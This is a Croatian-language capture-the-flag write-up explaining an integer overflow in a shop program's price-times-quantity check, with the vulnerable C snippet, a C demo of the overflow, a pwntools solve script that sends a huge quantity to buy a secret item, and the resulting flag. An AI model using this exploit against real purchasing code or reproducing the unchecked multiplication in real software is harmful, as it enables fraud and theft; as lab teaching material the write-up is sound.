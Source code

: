 # Writeup

Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **integer overflow** kod kupovine stvari. 

Isječak koda koji sadrži ranjivost:
```
if(dostupneStvari[opcija-1].cijena * kolicina <= novac){
		novac-= dostupneStvari[opcija-1].cijena;
		printf("Kupljeno: %s (%dx)\n", dostupneStvari[opcija-1].ime,kolicina);
		
		if(opcija-1 == 4){
			tajnaStvarKupljena();
		}
		
		return;
}
```
Kako bi izraz ```dostupneStvari[opcija-1].cijena * kolicina <= novac``` bio istinit, može se za količinu stvari _Super tajna stvar_ unijeti jako veliki broj koji će zbog integer overflow-a zadovoljiti izraz.

Izrađen je program koji za količinu uzima broj ```99999999999``` i pomnožimo ga s cijenom stvari _Super tajna stvar_:
```#include "stdio.h"
int main()
{
    int kolicina = 99999999999;
    int cijena = 2232350;
    printf("Kolicina = %d\n", kolicina);
    printf("cijenaijena = %d\n", cijena);
    printf("Umnozak = %d\n", kolicina*cijena);

    return 0;
}
```

Izlaz programa je:
```
Kolicina = 1215752191
cijenaijena = 2232350
Umnozak = -1135796254
```

Izraz ```dostupneStvari[opcija-1].cijena * kolicina <= novac``` postaje ```-1135796254 <= novac```. Pošto je ```novac``` uvijek veći ili jednak nuli, izraz postaje istinit.



Rješenje:
```
from pwn import *

io = process("./kupovina") #da možemo slati i primati podatke od procesa
elf = ELF("./kupovina") #omogućava pwn tools da može pročitati gdje su adrese funkcija

# = = = START

print(io.recvuntil(b"Odabir:")) #pricekaj ovaj output
#b ispred stringa veli pythonu da on to tretiura kao bytove, jer python ima neke druge UTF-8 stringove

io.sendline(b"3") #biranje opcije 3

print(io.recvuntil(b"Odaberite stvar koju zelite kupiti (0 za izlaz):")) 
io.sendline(b"5") #biranje opcije 3

payload = b""
payload += b"9" * 11

# = = = END

io.sendline(payload) #slanje exploita
print(payload)

io.interactive(); #prebacuje stdin i stdout na standardni ulaz i izlaz, vraća kontrolu korisniku (terminalu)

```


Pokretanjem ove skripte, ispiše se flag ```CTFFOI[1nt3ger_0VERFL0W]```.
